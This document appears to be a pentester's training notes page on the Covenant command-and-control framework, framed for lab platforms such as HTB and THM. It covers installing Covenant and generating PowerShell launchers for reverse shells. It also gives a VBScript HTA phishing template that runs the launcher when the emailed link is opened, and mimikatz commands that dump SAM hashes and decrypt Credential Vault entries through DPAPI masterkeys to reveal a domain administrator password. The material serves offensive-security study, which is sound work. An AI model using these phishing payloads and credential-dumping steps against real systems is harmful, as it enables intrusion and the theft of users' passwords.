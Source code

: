 # Covenant

## Installation

### Install Dotnet

```
cd /tmp  
wget https://packages.microsoft.com/config/ubuntu/21.04/packages-microsoft-prod.deb -O packages-microsoft-prod.deb 
sudo dpkg -i packages-microsoft-prod.deb 
sudo apt update -y  
sudo apt-get install -y apt-transport-https dnsutils 
sudo apt-get update  
sudo apt-get install -y dotnet-sdk-3.1 
```

### Install and launch Covenant

```
sudo git clone --recurse-submodules https://github.com/ZeroPointSecurity/Covenant.git /opt/Covenant 
cd /opt/Covenant/Covenant
sudo dotnet run
```
- Navigate to https://127.0.0.1:7443 set up your user and you should be good to go

## Start a listener

- This one of the first thing to do it go to the listener tab and click on create  
![image](https://user-images.githubusercontent.com/96747355/178054727-6633f276-24ea-4b9d-ac93-316f3a812d3c.png)  
- Fill the field as you wish. Here is mine (Note: When playing on HTB or THM the ip will be your tun ip)  
![image](https://user-images.githubusercontent.com/96747355/178057695-41943d70-cefc-41ac-9396-bad4cd9bce56.png)  


## Create a Launcher to get a shell

- We can go to Launcher and choose one we need. For example if we have an initial foothold on a win machine we could use a powershell launcher  
![image](https://user-images.githubusercontent.com/96747355/178056997-81d23254-184d-4e41-a220-c758ea55d6a4.png)  
- Say we wanted a powershell, we need to choose a listener so we can select the http one we just created then we just have to click generate (or Download depending on how you will use it) and use the given code. (Note: make sure to use a date later in time for the killDate)  
![image](https://user-images.githubusercontent.com/96747355/178057272-f4d74fdf-7ac5-4aa3-9ad0-996578935f82.png)  
- Once the powershell code used you see a grunt has popped


## Local Enumeration

- Suppose we have a grunt (a shell on the target) so we want to enumerate the target
- Click on the grunt > Interact
- Use Seatbelt `Seatbelt -group=all`
  - We will get useful info: local users, dns info (such as email domain and all), interesting files, etc.
- Use the cmd `GetDomainUser` to enumerate domain users
- Use the cmd `GetNetLoggedOnUser`to have a list of logged on users
- Use the cmd `GetNetLocalGroup` to have a list of local group
- etc.

## hta Email Phishing

- Create and hta file in your attacking machine:

```
<script language="VBScript">
  Function DoStuff()
    Dim wsh
    Set wsh = CreateObject("Wscript.Shell")
    wsh.run "<powershell command here>"
    Set wsh = Nothing
  End Function

  DoStuff
  self.close
</script>
```

- Create an HTTP listener in Covenant
  - Listener > create 
  - The table in listener should look like this  
    | Name        |    ListenerType | Status | StartTime	    |        ConnectAddresses   |   ConnectPort|
    |-------------|-----------------|--------|----------------|---------------------------|--------------|
    |HTTP Listener |	HTTP 	        |Active 	|3/7/2022 8:28:13 PM |	IP-OF-ATTACK-MACHINE 	    | 80

  - Go to Launchers > Powershell
  - Fill up the info, be careful taht the killdate is later in the future (not in the past)
  - Click on generate
  - Copy the encoded Launcher and put it in the script above instead of `<powershell command here>` 
  - Save the script
  - Go back to Listerners click on the listener that was just set up 
  - Go to Hosted Files, in Path enter `/name-of-your-script.hta`
  - Click on Browse and select your script
  - And click on create
  - If we go to `http://localhost/name-of-your-script.hta` we should be able to download it
- We can now send an email with a link to our reverse shell `http://IP-OF-ATTACK-MACHINE/name-of-your-script.hta`
- When the user will click the link an run the script we will get our reverse shell
- If we go to Covenant again and check in Grunt we should have a new one
- If you are not able to execute command (they stay Uninitialized) try either of those:  
  - Verify the kill date of the launcher
  - the UI may not allow changing the date.  This can be fixed by deleting the `/opt/Covenant/Covenant/data/covenant.db` file and restarting the service. You will lose all data and need to create a new user to log in with.

## Dump hashes with mimikatz

- In a high grunt
- We can use this to see if any plaintext info might come out `Mimikatz token::elevate lsadump::secrets`
- Will dump the sam file (where password hashes are stored in windows)`Mimikatz token::elevate lsadump::sam`
- Covenant will save the Crendentials in the Data section as well

## Cracking Credential Vault with mimikatz

- We need a medium integrity grunt
- `mimikatz vault::cred` will show all services with persisted passwords
- `ls C:\users\user\appdata\local\microsoft\credentials` will list the passwords files the smallest of the files is gemerally the one we need.
- We then go to the tab tak in our grunt. We select Mimikatz from the list and type this task: `"dpapi::cred /in:C:\users\user\appdata\local\microsoft\credentials\FILE-PREVIOUSLY-CHOSEN"`
- From the output of the task we need to keep aside the value of the guidMasterKey 
- `ls C:\users\user\appdata\roaming\microsoft\protect` this should list a directory with an sid value in the end
- If you do an ls on this it should list the same path with the guidMasterKey value we previously found. We need to copy the full path, and then we go to task again and using mimikatz we need to type `"dpapi::masterkey /in:C:\users\user\appdata\roaming\microsoft\protect\sid\guidMasterKey /rpc"`
- This way we will het in the end of the output the key for the domain controller which should look like this: `key : 60f202bff3c6e2eaedfc4c28ac1adbdd102ec7dba401157f6f8c2056205507ed4e6d93120ebe48959751c0f2c939e515382d7ffec7bd2b129c8eb89466b31f0f`
- We need to keep this key aside
- We go back to task and we type `"dpapi::cred /in:C:\users\user\appdata\local\microsoft\credentials\sid /masterkey:<PASTE-THE-KEY-HERE>"
- This should dump the domain password, you should see it at the end of the output:
  ```
  UserName       : domain\Administrator
  CredentialBlob : Password123!
  ```

## Resources

{% embed url="https://github.com/cobbr/Covenant" %} Get Covenant here {% endembed %}
{% embed url="https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers" %} Movement Pivoting and Persistence - TCM Security Academy {% endembed %}
